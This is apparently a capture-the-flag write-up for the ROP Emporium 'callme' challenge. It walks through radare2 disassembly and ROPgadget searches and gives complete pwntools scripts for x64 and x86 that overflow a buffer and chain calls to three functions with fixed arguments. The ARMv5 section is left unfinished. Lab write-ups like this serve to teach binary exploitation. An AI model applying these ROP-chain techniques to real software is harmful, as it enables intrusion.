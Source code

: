 # callme

## x64

Lets analyze the binary with r2. Similar to the previous challenges, the interesting function is `usefulFunction`.

```bash
$ r2 callme
[0x00400760]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400760]> s sym.usefulFunction
[0x004008f2]> pdf
┌ 74: sym.usefulFunction ();
│           0x004008f2      55             push rbp
│           0x004008f3      4889e5         mov rbp, rsp
│           0x004008f6      ba06000000     mov edx, 6
│           0x004008fb      be05000000     mov esi, 5
│           0x00400900      bf04000000     mov edi, 4
│           0x00400905      e8e6fdffff     call sym.imp.callme_three
│           0x0040090a      ba06000000     mov edx, 6
│           0x0040090f      be05000000     mov esi, 5
│           0x00400914      bf04000000     mov edi, 4
│           0x00400919      e822feffff     call sym.imp.callme_two
│           0x0040091e      ba06000000     mov edx, 6
│           0x00400923      be05000000     mov esi, 5
│           0x00400928      bf04000000     mov edi, 4
│           0x0040092d      e8eefdffff     call sym.imp.callme_one
│           0x00400932      bf01000000     mov edi, 1
└           0x00400937      e814feffff     call sym.imp.exit           ; void exit(int status)
```

Given the instructions, we must call `callme_one`, `callme_two`, and `callme_three` in that order each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` (For 64bit `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`).

Given there are three arguments to be passed into functions and it is a 64 bit binary, we must load them into registers. Specifically the $rdi, $rsi, and $rdx respectively. So we need to pop all three. Using ROPGadget we can identify where the gadgets are.

```bash
$ ROPgadget --binary callme| grep "pop rdi"
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

So our ROP chain is pretty simple. For each function, hit that address then pass in each argument and call the function at the end.

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./callme")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

OFFSET = 40
POP_ADDR = p64(0x40093c)
ARG_1 = p64(0xdeadbeefdeadbeef)
ARG_2 = p64(0xcafebabecafebabe)
ARG_3 = p64(0xd00df00dd00df00d)

rop.raw(b"A"*OFFSET)

for fun in ["callme_one", "callme_two", "callme_three"]:
    rop.raw(POP_ADDR)
    rop.raw(ARG_1)
    rop.raw(ARG_2)
    rop.raw(ARG_3)
    rop.raw(binary.symbols[fun])

p.sendline(rop.chain())
print(p.recvall().decode("utf-8").split("\n")[-2])
```

## x86

The method of calling functions is a little more complicated since we must call functions thrice, which means we cannot just pass the arguments into the stack and call the function; the first function will call correctly, but the others wont. So we need to call a ret function to somewhat 'reset' our position so the next function can be called.

```bash
$ ROPgadget --binary callme32 | grep ret
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
```

This seems to be a good candidate. So our ROP chain will consist of address for function call + address for ret + arguments. Below is the script to yield the flag.

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./callme32")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

OFFSET = 44 
RET_ADDR = p32(0x80487f9)
ARG_1 = p32(0xdeadbeef)
ARG_2 = p32(0xcafebabe)
ARG_3 = p32(0xd00df00d)

rop.raw(b"A"*OFFSET)

for fun in ["callme_one", "callme_two", "callme_three"]:
    rop.raw(binary.symbols[fun])
    rop.raw(RET_ADDR)
    rop.raw(ARG_1)
    rop.raw(ARG_2)
    rop.raw(ARG_3)

p.sendline(rop.chain())
print(p.recvall().decode("utf-8").split("\n")[-2])
```


## ARMv5

I'm not sure why a callme_armv5 and a callme_armv5-hf were supplied. Regardless, the latter will not execute because of a missing `/lib/ld-linux-armhf.so.3`. This didn't even seem to install in my `/usr/arm-linux-gnueabi`, and the instructions on ROP emporium do not help. Using `callme_armv5` is an absolute nightmare though.
